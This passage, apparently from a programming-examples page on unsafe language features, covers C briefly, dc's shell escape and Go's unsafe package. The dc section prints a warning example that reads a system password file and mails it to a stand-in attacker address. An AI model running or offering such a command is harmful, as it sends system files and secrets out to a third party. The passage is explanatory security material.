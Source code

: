 On the bright side, programming in C disciplines the programmer, nothing like a grueling boot camp or war time conscription to make one appreciate the niceties of a Java, Perl, Python or Haskell.

But try writing an operating system with them...

With great power, comes great responsibility. :)


## dc


Beware of allowing user input to fed to the reverse polish calculator. It has the ability to run shell commands, and this could be a security risk:


```dc
`!'cat /etc/password|mail badguy@hackersrus.com
```



## Go

Go is generally a safe language. In particular, whilst pointers are supported, arithmetic on them is not and so it's not possible to use pointers to poke around within the language's internal structures or to point to arbitrary memory locations. 

However, there are occasions (usually for performance reasons or to do things which - whilst desirable - wouldn't otherwise be possible) when pointer arithmetic is needed and Go provides the 'unsafe' package for these occasions.

This package contains functions which allow one to determine the size/alignment of various entities and the offset of particular fields within a struct as well as to perform pointer arithmetic.

The following example shows how to use a combination of reflection and pointer arithmetic to indirectly (and unsafely) change the contents of a byte slice. 

```go
package main

import (
    "fmt"
    "reflect"
    "unsafe"
)

func main() {
    bs := []byte("Hello world!")
    fmt.Println(string(bs))
    g := "globe"
    hdr := (*reflect.SliceHeader)(unsafe.Pointer(&bs))
    for i := 0; i < 5; i++ {
        data := (*byte)(unsafe.Pointer(hdr.Data + uintptr(i) + 6))
        *data = g[i]
    }
    fmt.Println(string(bs))
}
```

